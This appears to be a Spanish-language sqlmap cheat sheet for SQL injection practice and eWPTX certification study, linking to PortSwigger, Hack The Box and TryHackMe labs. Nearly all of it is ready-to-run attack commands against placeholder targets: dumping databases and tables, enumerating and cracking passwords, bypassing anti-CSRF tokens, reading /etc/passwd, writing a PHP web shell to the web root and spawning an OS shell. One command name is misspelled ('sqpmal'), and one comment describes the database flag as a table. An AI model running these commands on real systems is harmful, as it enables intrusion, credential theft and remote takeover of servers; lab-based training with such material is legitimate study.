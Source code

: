 ### Aprende a usar la herramienta
- [Tutorial Nmap para Hackers](#)

### Laboratorios Gratis para practicar
- [Login Bypassing Portswigger](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
- [SQL Injection Lab THM](https://app.hackthebox.com/machines/382)
- [THM Daily Bugle](https://tryhackme.com/room/dailybugle)

### Hoja de Trucos

| **Comando**                                                  | **Descripción**                                             |
| ------------------------------------------------------------ | ----------------------------------------------------------- |
| `sqlmap -h`                                                  | View the basic help menu                                    |
| `sqlmap -hh`                                                 | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`   | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`  | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                          | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`        | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`             | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`          | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`  | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                      | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`        | Spawning an OS shell                                        |


### SQLMap Payloads Ordenados

1. Comprobar si la herramienta está instalada
```bash
which sqlmap
```
2. Instalar la herramienta
```bash
sudo apt-get update -y && sudo apt install sqlmap
```
3. 
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T [TABLE_NAME] -D [DATABASE_NAME]
```

### Usefull Commands for eWPTX!

```bash
#Seleccionar un target
sqlmap -u "http://www.target.com/path/file.htm?variable=1"

#Cargar una petición desde un archivo
sqlmap -r request

#Utilizar User-Agent random
sqlmap -u "http://www.target.com/path/file.htm?variable=1" --random-agent

#Establecer el nivel de riesgo
sqlmap -u "http://www.target.com/path/file.htm?variable=1" --risk [0-3]

#Establecer el nivel de intensidad del ataque
sqlmap -u "http://www.target.com/path/file.htm?variable=1" --level [0-5]

#Controlar la petición con un proxy por ej BurpSuite
sqlmap --proxy "http://127.0.0.1:8080"

#Establecer una cookie
sqlmap --cookie "example=COOKIE"

#Atacar un parametro especifico
sqlmap -p "parametro" 

#Establecer un token CSRF
sqlmap --csrf-token "token"
sqlmap --csrf-url "url"

#Especificar el gestor de base de datos
sqlmap --dbms=gestor

#Especificar una tabla 
sqpmal -D "table"

#Dumpear toda la DB
sqlmap --dump
```
